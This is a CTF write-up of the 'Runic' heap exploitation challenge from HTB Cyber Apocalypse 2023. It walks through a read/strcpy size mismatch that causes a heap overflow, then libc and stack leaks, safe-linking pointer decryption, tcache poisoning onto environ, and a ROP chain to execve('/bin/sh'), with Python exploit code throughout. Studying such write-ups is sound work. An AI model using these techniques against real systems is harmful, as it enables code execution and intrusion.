

+++
title = "Runic HTB Cyber Apocolypse 2023"
tags = ["PWN", "Hashmap", "Heap"]
description = "Completed with my Team deadsec and completed Some of the most difficult PWN challenges that were offered"
date = "April 23"
author = "GoldenBoy"
labels = ["exploit-summary", "bug-visualization", "example-code","leaking-libc","defeating-glibc-235-restrictions"]
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++

# exploit summary

the vulnerability in the program occurs within the edit function. When editing a rune, the new name is copied from the stack to the malloced ptr. it is read using read and copied to the heap using strcpy. this copied value is then used to grab the size value from the items list.

the error occurs in that read is able to read null bytes, and continue reading after. Whereas strcpy stops at the first null byte. The result of this is an incorrect lookup for the size of the malloced space. with this you can read more bytes than the size allocated to the malloc ptr you're reading too.

This allows over write of the metadata for heap chunks, which in turn allows you to free into the unsort bins, putting a libc address on the stack. by then further abusing the overwrite, you can write right up to the ptr but not over it. then by using the show action on the overwritten chunk, and address can be leaked. -- in my exploit when I wanted to leak I just wrote CHEF to 1 before the thing I wanted to leak so the new line (`\n`) char would not overwrite a part of the pointer. I like using CHEF when leaking like this lol

# Bug Visualization
```
        stack       |          code          |          heap        
--------------------+------------------------+--------------------------        
    +------------+  |                        |   +-----------+   
    |  new name  |----+-|\x01\x00\n|-----+   |   |    size   |<---------0x20
    +------------+  | |      1st    /    |   |   +-----------+     previously 
 +->|  new idx   |  | |  +------------+  | +-----|    name   |<-+  created chunk 
 |  +------------+  | | +|   hash     |<-+ | |   +-----------+  |  with a size of 
 |                  | | |+------------+    | |   |    data   |------+    0x20
 +----[ 11 ]----------|-+                  | |   |           |  |   |
                    | |      2nd           | |   +-----------+  |   |
    same as above   | |  +------------+    | |                  |   |
    +------------+  | +->|   strcpy   |----|----|"\x01"|--------+   |
    |  new idx   |  |    +------------+    | |  now no newline after|
    +------------+  |        3rd           | |  this is insertied   |
      ^             |    +------------+    | |  into the heap       |
       \-[ 1 ]-----------|   hash     |<---+ |                      |
           |        |    +------------+      |                      |
           |        |       final            |                      |
           |        |    +------------+      |                      |
           +------------>|   read     |<----------------------------+
        size from idx 1  +------------+      |  heap ptr for idx 11
          i.e. 0x60           |              |    size 0x20
                              |
                              |
                    Size and chunk size mismatch
                    resulting in a heap overflow

```                        
Sorry for making it so complicated, but it was very hard to figure out!

This is the backbone for the rest of my exploit, it enables everything else 

### Code Block 


## Example code

The snippet of code below allocates 2 chunks, one small chunk at the start, and a larger chunk beneath it.

next, you edit the small chunk, but give it the new name of `\x3f\x00` since I am sending a line, a `\n` or `\x0a` is appended to the end of the new name

the result is the first lookup thinks that the item at index 9 (`(0x3f + 0xa) % 0x3f = 0x9`) is not in use, so it is safe to alloc there. But, because of the strcpy when calculating the hash for reading to the allocation it gets the index of `0x3f` which contains the size of `0x60`.   

```python
#allocate a small block at the start of the heap
create_rune(r, 'a', 8, "B"*7) #target

#make a larger block, the size is important for overwriting the it's values
create_rune(r, 'u', 96, "C"*95) #victim chunk

#make the larger chunk even bigger! with a size of 0x431 it is considered an unsorted chunk
edit_rune(r, 'a', '\x3f\x00', "A"*0x10+p64(0x431))
```

# Leaking Libc


### code

by freeing our unsorted bin, a pointer to libc is placed in the heap.
to grab it, just use the same overwrite technique as above, write just to the pointer and the grab it/parse it

```python
delete_rune(r, 'u')

#overwrite up to the pointer to grab it
edit_rune(r, '\x3f\x00', '\x3e\x00', "A"*0x13+"CHEF") # use the s allocation to overwrite the metadata
libc_leak = parse_leak(r, '\x3e\x00')

#fix the metadata for the unsorted bin, this is where the 0x18 size item comes in handy
edit_rune(r, '\x3e\x00', '\x3a\x00', "A"*0x10+p64(0x431))
```

### parse leak
```python
def parse_leak(r, name):
    sla(r, 'Action:', 4)
    sla(r, ':', name)
    ru(r, "CHEF\n")
    leak = u64(re(r,6)+'\x00\x00')
    return leak
```

# Poisoning tcache

this is very similar to what I did above, for more information I'd recommend checking out how to heap's [github page](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_poisoning.c)!

free 2 rune's of the same size, and leave one above them alloced
use the same techinque as above to leak the ciphered pointer

### leak the ciphered pointer
```python
    create_rune(r, p64(33)[:-1], 0x30, 0)
    create_rune(r, p64(34)[:-1], 0x30, 0)
    create_rune(r, p64(35)[:-1], 0x30, 0)

#... other code between these

    delete_rune(r, p64(35)[:-1])
    delete_rune(r, p64(34)[:-1])

    #same deal to overwrite the meta data
    edit_rune(r, p64(33)[:-1], '\x3d\x00', "A"*0x33+"CHEF")

    #grab a ciphered ptr
    weird_ptr = parse_leak(r, '\x3d\x00')

	plain_ptr, key = decrypt_ptr(weird_ptr)
```

more information on why this works can be found [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/decrypt_safe_linking.c)
### decipher
```python
def decrypt_ptr(cipher):
    key = 0
    plain = ''

    cipher = cipher
    for i in range(6):
        bits = 64-12*i
        if bits < 0:
            bits = 0
        plain = ((cipher ^ key) >> bits) << bits;
        key = plain >> 12
    print hex(key)
    print hex(plain)
    print hex(cipher)

    return plain, key

```

### poisoning
calculate the pointer you would like malloc to return.
xor that pointer with the key calculated before
overwrite the pointer in the target chunk with the pointer you'd like
malloc twice, the 2nd malloc will return a pointer to the localtion of you're choosing!
```python
environ_libc = 0x1FAEC0 + libc_base #enviorn
    
log.info("environ: {}".format(hex(environ_libc)))
environ_cipher = (environ_libc-0x10) ^ key
    
edit_rune(r, '\x3d\x00', '\x3c\x00', 'A'*0x30+p64(0x21)+p64(environ_cipher))


create_rune(r, p64(36)[:-1], 0x30, "B")
#overwrite up to the leak so that puts includes it
create_rune(r, p64(35)[:-1], 0x30, "A"*3+"CHEF")
stack_leak = parse_leak(r, p64(35)[:1])
```

# defeating glibc 2.35 restrictions
glibc removes the use of `__malloc_hook` and `__free_hook`, making their use in this challenge impossible

that being said, by freeing a chunk to an unsorted bin, we still have access to a write what where
primative. This is a super powerful primative, and enables lots of other things

I did read online that you could write to the exit_function_list and get RCE that way, but I couldn't figure out
the pointer decryption. On top of that, there are very few calls to exit from the program. only can be done with
a failed read. So, I tried something else. 

# ROPing with no stack BOF
I love ROP chain's, especially with libc leaked, you can do almost anything.
the problem is, right now we only have a pointer to libc, not the stack.
can we change that?

Introducing..... the environ variable! (this is what I was leaking above)
the environ variable in libc contains a pointer the environment variables for the process, which 
just so happens to be on the stack!

It also is in a relatively static location, allowing for deterministic offset calculation

I chose to use this by mallocing a chunk right on top of the return address for the create function call that 
malloc'ed it.

by doing this I could us up to 12 ROP gadgets!! although the way mine ended up working out, I only allocated
enough space for 10. for more I would have needed to change the way my script works quite a bit.

10 is more than enough anyways!

### code
similar to above, this time we want to write to the stack
```python
delete_rune(r,p64(39)[:-1])
delete_rune(r,p64(38)[:-1])
edit_rune(r, p64(37)[:-1], '\x3f\x00\x01', "A"*0x53+"CHEF")

#leak the pointer so I can properly overwrite the next pointer in the tchace
new_cipher = parse_leak(r, '\x3f\x00\x01')
plain_ptr, key = decrypt_ptr(new_cipher)

log.info("2nd ptr: {}".format(hex(plain_ptr)))

edit_rune(r, '\x3f\x00\x01', '\x3f\x00\x02', "Z"*0x50+ p64(0x51)+p64(stack_write ^ key))

create_rune(r, p64(41)[:-1], 0x50, 'Y')
```

## something else interesting...
Usually, with the challenges I like to call a one_gadget. They are perticuarly handy with rop chains
as you usually just need to pop null into some registers and call the gadget

However, with this challenge you can't!
I'm not sure if it is a new feature of libc, or if it is custom configured, but when I tried to call the one gadget
I got an error that `file execvpe.c not found`. So, I had to think a bit harder

## the final chain
My final chain was quite simple, since there is a gadget to pop rdx, and a syscall gadget. I just manually populated the registers with 4 different pop $ calls, and then ended with a syscall! 

### rop chain
```python
    pop_rsi = libc_base + 0x0000000000037c2a#: pop rsi; ret;
    pop_rdx = libc_base + 0x000000000010b127#: pop rdx; ret;
    syscall = libc_base + 0x00000000000883d6#: syscall; ret;
    pop_rax = libc_base + 0x00000000000446e0#: pop rax; ret;
    bin_sh  = libc_base + 0x1B4689
    pop_rdi = libc_base + 0x000000000002daa2#: pop rdi; ret#

    #build a rop chain to call the execve syscall with the correct values
    payload = p64(pop_rsi)
    payload += p64(0)
    payload += p64(pop_rdi)
    payload += p64(bin_sh) #address of /bin/sh in libc
    payload += p64(pop_rdx)
    payload += p64(0)
    payload += p64(pop_rax) #its lucky there was a pop rax gadget
    payload += p64(59)
    payload += p64(syscall)

    log.info("writting rop chain over create's return ptr")
    #write the rop chain to the leaked stack ptr
    create_rune(r, p64(39)[:-1], 0x50, payload)

    log.info("enjoy the shell ;)")
    r.interactive()
```


# Final thoughts
All in all this was a really fun challenge and I learned a ton! It was very rewarding to finally figure out the vulnerability, it took me a looooong time to find it. probably about 7 or so hours.

Then, with that getting the write what where vulnerability and figuring out I can't just overwrite the `__malloc_ptr` was very shocking! It forced me to read other's writeup's and learn about how a modern version of libc works.

I'm also very happy with the way I finally code code execution, it felt like I used every trick I knew! So, to wrap things off, here is a list of the techinques I used, and pieces of knowledge that helped me!

Techiniques/knowledge used:
    - strcpy copies to a null byte, while read doesn't stop at a null byte
    - freeing a chunk into an unsorted bin places a libc pointer on the heap
    - puts also prints until a null byte (allowing full leaks)
    - heap ptr's can be deciphered. read more [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/decrypt_safe_linking.c)
    - tcache poisoning. read more [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_poisoning.c)
    - ROP chaining
    - (not a techinque) carefully following how data/handles are passed around from function call to function call

What I learned:
    - environ variable in LIBC contains a pointer to the stack
    - in glibc 2.35 `__malloc_hook`, `__free_hook`, and `__realloc_hook` are useless :( 
    - exit_function_list can be overwritten for RCE on an exit call
    - sometimes one gadgets don't work!
